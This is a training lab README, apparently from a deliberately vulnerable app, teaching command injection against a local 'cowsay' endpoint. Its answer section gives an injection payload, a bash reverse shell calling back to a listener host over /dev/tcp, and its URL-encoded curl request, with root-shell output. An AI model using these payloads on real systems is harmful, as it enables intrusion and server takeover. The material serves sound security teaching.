

# RCE - Remote Code Execution & Obtaining a Reverse Shell

A remote code injection (RCE) vulnerability is the most deadly type of vulnerability since it gives an attacker command and control in some regard or another of a host server.

When you find an RCE, you can use it to execute commands as the user that owns the process you have compromised. For example, if you run a tomcat webserver as the user `tomcat` and that process is exploited by an RCE, you can do anything that `tomcat` user can do. This is the reason it is always recommended to run webservers as non-privileged users that don't have access to more than they need.

Once you have the ability to execute arbitrary commands on a host, you can do lots of nasty things such as listing the contents of sensitive files, updating HTML code and defacing websites, etc. However, to embed yourself further in the system, you'll want to obtain an actual shell on the host you've compromised. This allows you execute multiple commands on the host just like if you had a remote SSH or Telnet session on the host.

The way to do this is to establish a reverse shell. The reason it's called reverse is that instead of connecting your session to the victim, you setup a listener on a remote box that you own, and bind to that from the victim host. The reason should be fairly self-explanitory, that setting up a listener on a box you don't own requires elevated privilege and also most hosts block unused ports via firewall rules. However, most hosts actually need to gain access to the web to download packages, etc so egress is typically allowed by firewalls, especially on ports 80 and 443 (HTTP and HTTPS respectively).

The details of how these reverse shells include a bit of understanding of file redirection in unix or use of socket-level programming in different scripting languages, so I'll leave this link here for you to read through. For this exercise, we'll just use copy/paste to help us out. https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/



# Lab

We have a vulnerable endpoint that uses a Linux command line utility. Let's try to execute this fun little endpoint that executes the `cowsay` program on Linux normally:

```
$ curl 'http://localhost:8080/cowsay?input=I+Love+Linux!'
 _______________
< I Love Linux! >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

Try to exploit this command using what we've learned so far from the SQL injection exercise about escaping

<details>
  <summary>Answer</summary>

  This executes the `cowsay` program on our host linux box, but as you can see, it allows user input. This is a sign that it might have a RCE type vulnerability if input is not validated. Let's try with a few inputs to see what we have control over.

  Let's assume that the executable looks something like `cowsay 'input'`. There wouldn't have to be a single quote there, but it's a reasonable initial assumption. We'll have to escape using the same method we used for the SQL injection. So let's see what we can execute the `ls` command to list the directory contents.

  The way you'd escape would be something like this where the `';` gets you out of the expected command and then you execute your own command. Then the `#` comment character ignores the rest of the command just like in the SQL injection:

  ```
  cowsay 'input'; ls #
  ```
  But there's some characters that probably won't work in a URL parameter. This is where we'll try to encode our command string with a URL encoder. We'll use https://www.urlencoder.org/ for this. If you copy the above line and encode it you can add it to the URL parameter like so and then execute the curl request to see what you get:

  ```
  $ curl "http://localhost:8080/cowsay?input=input%27%3B%20ls%20%23"
   _______
  < input >
   -------
          \   ^__^
           \  (oo)\_______
              (__)\       )\/\
                  ||----w |
                  ||     ||
  Dockerfile
  README.md
  bin
  boot
  dev
  docker-compose.yml
  docker-java-home
  etc
  exercises
  home
  internal_site
  ...
  ```

  _insert evil laugh here_

  So now we've confirmed our suspicions that we have the ability to execute arbitrary commands from this endpoint. Now we can solidify our hold on the box using a Reverse Shell. First we'll need to actually create our listener using `Terraform`. Go ahead and [download Terraform](https://www.terraform.io/downloads.html) and navigate to the [`reverse_shell`](../reverse_shell/README.md) directory in this project and follow the instructions to spin up your listener on port 443.

  ```
  thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #
  ```

  This gets parsed as:
  ```
  /usr/games/cowsay 'thing'; bash -i >& /dev/tcp/LISTENER_IP/443 0>&1 #'
  ```

  Now let's get the IP from our listener, URL encode our payload and execute this against the web server.

  ```
  # Get the IP from the AWS host you just created
  export LISTENER_IP=$(aws --region us-west-2 ec2 describe-instances --filters  "Name=tag:Name,Values=VulnadoReverseShellReceiver" | jq -r '.Reservations[0].Instances[0]|.PublicIpAddress')

  # Use the URL encoded payload from above to execute a reverse shell.
  curl "http://localhost:8080/cowsay?input=thing%27%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F${LISTENER_IP}%2F443%200%3E%261%20%23"
  ```

  If you look back at your terminal running the listener, you should now see a prompt that looks something like:

  ```
  [ec2-user@ip-10-42-0-83 ~]$ sudo nc -l -p 443
  bash: cannot set terminal process group (1): Inappropriate ioctl for device
  bash: no job control in this shell
  root@6e99769a0f82:/#
  ```

  Congratulations, you now have a _mostly_ functioning bash shell into the compromised web server. At this point you can do lots of nasty things such as listing environment variables with `env` or downloading new packages because, as your prompt tells you, you now have root control.

  Now that you have a remote shell try finding the secret value in the root directory!

  **Followup question:** How would we validate the url that is being passed into this function?

</details>
